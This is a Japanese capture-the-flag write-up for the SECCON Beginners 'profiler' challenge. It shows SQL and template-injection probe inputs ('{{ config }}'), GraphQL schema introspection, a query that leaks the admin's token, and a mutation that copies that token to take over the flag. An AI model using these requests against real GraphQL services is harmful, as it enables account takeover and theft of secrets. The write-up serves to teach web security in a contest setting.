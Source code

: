 # profiler

とりあえず適当なアカウントを作ってログイン ( `'` をいたるところに入れてみたけれど特に問題なさそうなことを確認)。アカウントを作ったときに token が表示される。

与えられた token を正しく入力すると profile を更新できるので、最初は SQLi やテンプレートインジェクションを疑い、 `'` や `{{ config }}` などを profile に入れてみたが、何も表示されず…

chrome の inspector で Network を見てみると、 たびたび `/api` とやり取りをしていることに気づく。request payload は `{"query":"query {\n    me {\n      uid\n      name\n      profile\n    }\n  }"}` や `{"query":"mutation {\n    updateProfile(profile: \"\", token: \"0c3189c248e4fadfedbc3d7e53dd41593ba696837ee07aba8724e77bb51a8748\")\n  }"}`など。
なんだろうと思って出てくる単語を調べてみると、GraphQL だということがわかる。どうやら https://github.com/prisma-labs/get-graphql-schema を使えば schema を見ることができるらしい。

`$ get-graphql-schema https://profiler.quals.beginners.seccon.jp/api` を実行すると、以下の schema が確認できた。

```
type Mutation {
  updateProfile(profile: String!, token: String!): Boolean!
  updateToken(token: String!): Boolean!
}

type Query {
  me: User!
  someone(uid: ID!): User
  flag: String!
}

type User {
  uid: ID!
  name: String!
  profile: String!
  token: String!
}
```

名前を見た感じ、 `Mutation` の `updateToken` と、 `Query` の `someone` が有用そうに見え、 admin の token を Query で見て、 updateToken で自分の token を更新すれば flag が覗けるのでは、と予想した。

cookie はログインしたときのものを使い、 `https://profiler.quals.beginners.seccon.jp/api` に対して以下の post をした。

* `{"query":"query {\n    someone(uid: \"admin\") {\n      uid\n      name\n      profile\n    token\n    }\n  }"}` 

  * ```
    {
    "data": {
    "someone": {
    "name": "admin",
    "profile": "Hello, I'm admin.",
    "token": "743fb96c5d6b65df30c25cefdab6758d7e1291a80434e0cdbb157363e1216a5b",
    "uid": "admin"
    }
    }
    }
    ```

* `{"query":"mutation {\n    updateToken(token: \"743fb96c5d6b65df30c25cefdab6758d7e1291a80434e0cdbb157363e1216a5b\")\n  }"}` を post

その後、ログイン後の画面で Get FLAG を押すと、 flag が表示された。

`ctf4b{plz_d0_n07_4cc3p7_1n7r05p3c710n_qu3ry}`